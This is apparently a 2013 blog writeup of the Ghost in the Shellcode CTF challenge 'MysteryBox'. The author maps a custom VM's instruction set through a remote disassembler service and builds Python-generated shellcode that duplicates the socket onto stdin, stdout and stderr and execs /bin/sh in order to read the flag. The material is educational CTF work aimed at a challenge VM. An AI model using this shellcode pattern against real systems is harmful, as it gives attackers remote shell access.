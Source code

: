 ```yaml
---
title: 'GITS 2013 Writeup: MysteryBox (re300)'
date: 2013-02-17T00:00:00+02:00
tags: ["CTF", "writeup", "hacking"]
draft: false
---
```


MysteryBox was a remote server disassembling and running its input data for an
unknown RISC-like CPU. As far as I know the unknown CPU is not a "real" CPU but
a VM made solely for this challenge. Here is an example of how to interact with
the remote MysteryBox service:

{{< highlight shell-session >}}
$ perl -e 'print "\x00\x00\x00\x00"' |
        nc mysterybox.2013.ghostintheshellcode.com 4242
09007800  ldb sp, sp, sp
Caught signal 11.  Program terminated.
 sp=0900bc08  r1=00000000  r2=00000000  r3=00000000  r4=00000000  r5=00000000
 r6=00000000  r7=00000000  r8=00000000  r9=00000000 r10=00000000 r11=00000000
r12=00000000 r13=00000000 r14=00000000 r15=00000000 r16=00000000 r17=00000000
r18=00000000 r19=00000000 r20=00000000 r21=00000000 r22=00000000 r23=00000000
r24=00000000 r25=00000000 r26=00000000 r27=00000000 r28=00000000 r29=00000000
 lr=00000000  ip=09007800  cc=ffff
{{< / highlight >}}

<!--more-->

We can see the remote service disassembled our `00 00 00 00` bytes to `ldb sp,
sp, sp` and crashed while executing it (crash dump `ip` points to our
instruction). After playing a bit with the disassembler, I figured out how
instructions were encoded, and ran a loop to get all the instructions supported
by this CPU:

```
00000000        ldb sp, sp, sp
01000000        stb sp, sp, sp
02000000        ldbu sp, sp, sp
03000000        stbu sp, sp, sp
04000000        ldsxb sp, sp, sp
05000000        ldi sp, 0
06000000        add sp, sp, sp
07000000        mulx sp, sp, sp, sp
08000000        div sp, sp, sp
09000000        and sp, sp, sp
0a000000        shl sp, sp, sp
0b000000        syscall 0  ; SYS_restart_syscall
0c000000        ldfs f0, sp, sp
0d000000        ldfsu f0, sp, sp
0e000000        fadd f0, f0, f0
0f000000        fmod f0, f0, f0
00400000        ldh sp, sp, sp
01400000        sth sp, sp, sp
02400000        ldhu sp, sp, sp
03400000        sthu sp, sp, sp
04400000        ldsxh sp, sp, sp
05400000        ldih sp, 0
06400000        sub sp, sp, sp
07400000        imulx sp, sp, sp, sp
08400000        idiv sp, sp, sp
09400000        or sp, sp, sp
0a400000        shr sp, sp, sp
0b400000        cmplt0 sp, sp
0c400000        ldfd f0, sp, sp
0d400000        ldfdu f0, sp, sp
0e400000        fsub f0, f0, f0
0f400000        fpow f0, f0, f0
00800000        ldw sp, sp, sp
01800000        stw sp, sp, sp
02800000        ldwu sp, sp, sp
03800000        stwu sp, sp, sp
04800000        ldsxbu sp, sp, sp
05800000        jmp 0x08a3b898
06800000        addx sp, sp, sp
07800000        mul sp, sp, sp
08800000        mod sp, sp, sp
09800000        xor sp, sp, sp
0a800000        rol sp, sp, sp
0b800000        icmplt0 sp, sp
0c800000        stfs f0, sp, sp
0d800000        stfsu f0, sp, sp
0e800000        fmul f0, f0, f0
0f800000        flog f0, f0, f0
00c00000        ldmw sp, sp, sp
01c00000        stmw sp, sp, sp
02c00000        ldmwu sp, sp, sp
03c00000        stmwu sp, sp, sp
04c00000        ldsxhu sp, sp, sp
05c00000        call 0x08a3b8d8
06c00000        subx sp, sp, sp
07c00000        mov sp, sp
08c00000        imod sp, sp, sp
09c00000        sar sp, sp, sp
0ac00000        ror sp, sp, sp
0bc00000        fcmplt0 f0, f0
0cc00000        stfd f0, sp, sp
0dc00000        stfdu f0, sp, sp
0ec00000        fdiv f0, f0, f0
0fc00000        ldfi f0, sp
```

More details about this architecture: it is little-endian, each instruction can
be made conditional (like ARM) and the result of an arithmetic operation can be
shifted left by up to 16 bits. While most instructions use 3 registers, some
also use one register and a 16 bit, sign-extended immediate. From there, I
started to experiment a bit and wrote a simple `write(4, "h", 1)` shellcode:

{{< highlight python >}}
def gen_string(s):
    instrs = []
    for i, c in enumerate(s):
        c = ord(c)
        instrs.append(0x05020000 | i) # ldi r1, [i]
        instrs.append(0x05040000 | c) # ldi r2,
        instrs.append(0x03040020)     # stbu r2, sp, r1
    return instrs

instrs = gen_string('h')
instrs += [
    0x05020004, # ldi r1, 4
    0x07c40000, # mov r2, sp
    0x05060001, # ldi r3, 1
    0x0b000004, # syscall SYS_write
]
{{< / highlight >}}

This works well, however our goal is to get a shell! For that, we need
to `execve("/bin/sh", { "/bin/sh", NULL }, NULL)`. But this is not
enough: `sh` tries to communicate using standard stdin/out/err FDs (0, 1, 2).
We need to write something to `dup2` our socket over these FDs:

{{< highlight python >}}
def gen_string(s):
    instrs = []
    for i, c in enumerate(s):
        c = ord(c)
        instrs.append(0x05020000 | i) # ldi r1, [i]
        instrs.append(0x05040000 | c) # ldi r2,
        instrs.append(0x03040020)     # stbu r2, sp, r1
    return instrs

def dup2(f, g):
    return [
        0x05020000 | f, # ldi r1, [f]
        0x05040000 | g, # ldi r2, [g]
        0x0b000000 | 63 # syscall SYS_dup2
    ]

instrs = []
instrs += dup2(4, 0)
instrs += dup2(4, 1)
instrs += dup2(4, 2)
instrs += gen_string('h')
instrs += [
    0x05020001, # ldi r1, STDOUT_FILENO
    0x07c40000, # mov r2, sp
    0x05060001, # ldi r3, 1
    0x0b000004, # syscall SYS_write
]
{{< / highlight >}}

Our write syscall is now using `STDOUT_FILENO` (aka. 1) and working fine, which
means our `dup2` calls are working. Now we need to `execve` our shell. This
shellcode stores `"/bin/sh"` at address `sp+16`, and stores `argv` (aka. `{
sp+16, 0 }`) at address `sp`. Note that the previous `gen_string` had a bug
because it was using `stbu` (store then update the pointer) instead
of `stb` (simply store).

{{< highlight python >}}
def gen_string(s):
    instrs = []
    for i, c in enumerate(s):
        c = ord(c)
        instrs.append(0x05020000 | (i + 16)) # ldi r1, [i+16]
        instrs.append(0x05040000 | c) # ldi r2,
        instrs.append(0x01040020)     # stb r2, sp, r1
    return instrs

def dup2(f, g):
    return [
        0x05020000 | f, # ldi r1, [f]
        0x05040000 | g, # ldi r2, [g]
        0x0b000000 | 63 # syscall SYS_dup2
    ]

instrs = []
instrs += dup2(4, 0)
instrs += dup2(4, 1)
instrs += dup2(4, 2)
instrs += gen_string('/bin/sh\x00')
instrs += [
    0x05020010, # ldi r1, 16
    0x06021000, # add r1, r1, sp
    0x05040004, # ldi r2, 4
    0x06042000, # add r2, r2, sp
    0x01863040, # stw r3, r3, r2
    0x07c40000, # mov r2, sp
    0x01823040, # stw r1, r3, r2
    0x0b00000b, # syscall SYS_execve
]
{{< / highlight >}}

With our shell we can now `cat key` to finally solve this challenge.
